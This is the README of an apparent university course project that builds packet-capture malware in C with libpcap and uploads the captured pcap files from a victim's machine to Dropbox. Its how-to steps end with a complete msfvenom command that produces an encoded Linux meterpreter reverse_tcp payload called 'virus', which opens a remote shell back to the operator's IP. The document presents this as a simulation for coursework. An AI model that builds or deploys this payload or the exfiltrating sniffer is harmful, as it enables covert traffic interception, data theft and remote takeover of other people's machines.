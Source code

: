# CS460 Final Project

This project is a simple implementation of a packet capture malware. The malware is written in C and utilizes the libpcap library. 
In order to simulate how this malware could be placed on a victim's machine, Metasploit is used. 

## How To Use

1. [Download Metasploit](https://www.rapid7.com/products/metasploit/download/)

2. Create a Dropbox developer account, create an access token add it to your environment as "DROPBOX_ACCESS_TOKEN". 
   Dropbox is used for storing pcap files that have been created on the victim's machine.
   
3. Run ./build.sh to create the malware executable. The malware was only tested on Linux so it is advisable to only build it on Linux.

4. Move into the directory containing all the Metasploit binaries. This is typically /opt/metasploit-framework/bin/.
   Run the command below, which creates a binary version of an exploit that is placed on the victim's machine. 
   When this binary is executed, a meterpreter shell is started on your machine. More info on meterpreter shells can be found [here  (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
   
   ./msfvenom -a x86 --platform linux -p x86/linux/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -e x86/shikata_ga_nai -f elf -o virus
